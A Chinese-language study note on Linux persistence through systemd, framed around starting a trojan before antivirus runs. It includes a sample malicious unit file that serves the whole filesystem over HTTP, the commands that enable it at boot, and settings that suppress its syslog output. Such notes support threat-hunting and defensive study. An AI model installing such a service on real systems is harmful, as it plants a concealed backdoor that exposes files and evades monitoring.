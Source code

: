 ```yaml
---
tags:
  - 操作系统
  - Linux
  - 木马
  - Systemd
参考: https://pberba.github.io/security/2022/01/30/linux-threat-hunting-for-persistence-systemd-timers-cron/
updateTime: 2025-04-11 16:48
---
```

背景：为了使得木马躲避杀毒软件，考虑在杀毒软件启动前启动木马程序，这需要将我们的木马与**服务**联系起来    

Systemd services是用来管理守护进程的，所以攻击者的一种思路就是利用 Systemd 安装自己的恶意服务，这样在重新启动机器后，他们的后门服务也将重新启动。

安装新服务的方法：在`/etc/systemd/system/`或`/lib/systemd/system/`中创建服务单元文件`*.service`。  

## 1.1 一个`rsyslog.service`的例子  

```toml
[Unit]
Description=System Logging Service
Requires=syslog.socket
Documentation=man:rsyslogd(8)
Documentation=https://www.rsyslog.com/doc/

[Service]
Type=notify
ExecStart=/usr/sbin/rsyslogd -n -iNONE
StandardOutput=null
Restart=on-failure

# Increase the default a bit in order to allow many simultaneous
# files to be monitored, we might need a lot of fds.
LimitNOFILE=16384

[Install]
WantedBy=multi-user.target
Alias=syslog.service
```

重点关注其中的两行：  

- `ExecStart`: 服务启动时执行的命令  
- `WantedBy`: 这里的值`multi-user.target`, 表示服务在（boot time）启动  

## 1.2 安装恶意服务  

### 1.2.1 可供选择的路径  

通过命令`systemd-analyze unit-paths`(--user)来枚举完整路径以及**顺序**  

- 注意，越靠前的顺序优先级越高，同名服务只看第一个

### 1.2.2 最简例子  

创建`/etc/systemd/system/bad.service`

```toml
[Unit]
Description=Example of bad service

[Service]
ExecStart=python3 -m http.server --directory /

[Install]
WantedBy=multi-user.target
```

创建这个文件后，使用命令`systemctl enable bad`来激活  

- 激活的时候，会自动在路径中查找我们的`bad.service`, 并为每个`WantedBy`里的目标创建一个链接(symlink)  

- 也可以手动创建：

```shell
  ln -s /etc/systemd/system/bad.service /etc/systemd/system/multi-user.target.wants/bad.service
```

### 1.2.3 隐藏某些输出  

默认情况下，会在*syslog* 有所输出，我们可以在之前创建的文件中`[Service]`中加入下面几行  

```
StandardOutput=null
StandardError=null
```

